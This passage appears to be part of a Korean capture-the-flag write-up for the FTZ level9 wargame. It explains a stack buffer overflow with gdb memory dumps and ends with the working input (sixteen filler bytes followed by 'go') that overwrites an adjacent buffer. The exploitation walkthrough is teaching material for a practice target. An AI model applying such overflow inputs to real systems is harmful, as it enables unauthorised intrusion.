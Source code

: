 `buf2`에 'go' 문자열이 존재하면 성공한다. 위의 소스코드를 컴파일 하여 실행하면 다음과 같은 결과가 나온다.

```
[level9@ftz tmp]$ ./a.out 
It can be overflow : AAAA
buf2 : 0xbfffe850 , buf : 0xbfffe840	
```

주소의 차이를 보면 0x10 바이트 만큼 차이가 나는 것을 확인할 수 있다.

| address  |     value      |
| :------: | :------------: |
| buf[10]  |      AAAA      |
|  dummy   |                |
| buf2[10] |                |
|  dummy   |                |
|   SFP    |   EBP backup   |
|   RET    | Return Address |

요런식이다. 함수의 호출 시 스택의 변화에 대해 찾아보면 알 수 있다.
그렇다면 buf2에 'go' 라는 문자열을 들어가도록 어떻게 하면 될까

기존 `buf` 변수는 10byte의 길이만 담는다. 그렇다면 넘치게 담는다면...

```assembly
(gdb) r  
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/level9/tmp/a.out 

Breakpoint 1, 0x0804844f in main ()
(gdb) ni
It can be overflow : AAAABBBBCCCCDDDD
0x08048454 in main ()
(gdb) x/8x $eax
0xbfffecc0:	0x41414141	0x42424242	0x43434343	0x44444444
0xbfffecd0:	0x4213000a	0x4000c660	0xbfffece8	0x080484b2
```

입력 값에 10byte보다 긴 16byte의 문자열을 입력 시 위와 같이 스택에 잘 쓰여지는 것을 볼 수 있다. `buf(0xbfffecc0),buf2(0xbfffecd0)` 이니 잘 덮어씌우면 문제는 해결!!

```assembly
Breakpoint 1, 0x0804844f in main ()
(gdb) ni
It can be overflow : 1111111111111111go
0x08048454 in main ()
(gdb) x/8x $eax
0xbfffe140:	0x31313131	0x31313131	0x31313131	0x31313131
0xbfffe150:	0x000a6f67	0x4000c660	0xbfffe168	0x080484b2
```
